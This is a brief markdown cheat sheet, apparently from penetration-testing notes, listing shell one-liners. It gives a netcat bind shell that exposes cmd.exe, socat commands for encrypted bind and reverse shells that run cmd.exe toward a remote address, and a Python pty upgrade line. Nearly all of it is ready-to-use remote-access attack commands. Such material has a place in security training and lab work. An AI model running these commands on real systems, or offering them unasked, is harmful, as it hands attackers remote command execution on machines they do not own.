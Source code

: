 # Shells

## Windows Netcat Bind shells

Shell waiting for incoming connection

```bash
nc -nlvp 4444 -e cmd.exe
```

Connecting to shell

```bash
nc -nv <ip address> 4444
```

## Socat

Encrypted Windows bind shell

```bash
socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0 EXEC:cmd.exe,pipes
```

Encrypted connection to bind shell

```bash
socat - OPENSSL:192.168.227.10:443,verify=0 
```

Encrypted Reverse shell listener

````bash
socat -d -d OPENSSL-LISTEN:443,cert=rev_shell.pem,verify=0,fork STDOUT 
````

Encrypted Reverse shell connection from Windows

```bash
socat OPENSSL:192.168.119.128:443,verify=0 EXEC:cmd.exe,pipes
```



## Upgrading shells

````bash
python -c 'import pty; pty.spawn("/bin/bash")'
````



